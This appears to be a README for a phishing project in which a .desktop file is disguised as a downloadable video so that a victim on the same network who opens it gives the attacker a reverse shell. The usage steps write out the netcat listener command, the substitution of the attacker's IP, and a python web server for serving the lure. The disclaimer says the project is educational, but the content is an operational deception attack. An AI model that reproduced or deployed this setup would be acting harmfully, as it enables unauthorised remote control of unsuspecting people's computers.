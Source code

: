 # phising-website
This is a demonstration of reverse shell using netcat which happens when the target on the same network plays the downloaded video.

## Description
- Using Netcat to gain revese shell access to the target's computer. 
- The target has to be in the same network for this to work.
- The target will think that he is playing a normal video but we will have access to his device.
- The target must be using Linux distro which has netcat installed on it.
- This Project is for educational purpose only.

## Usage
1. Make a ZIP file with ```funny.desktop``` in it and name it ```funny.zip```
2. Run: ```npm install``` in terminal at the file location.
3. Start the node Server.
4. Now, you can make the port public.
5. Open funny.desktop and replace {private_ip_address} with the attacker's private ip address.
6. Open terminal and run: ```sudo nc -lnvp 87``` Netcat will start listning at port 87.
7. Then run a python server to monitor all requests: ```sudo python3 -m http.server 80```

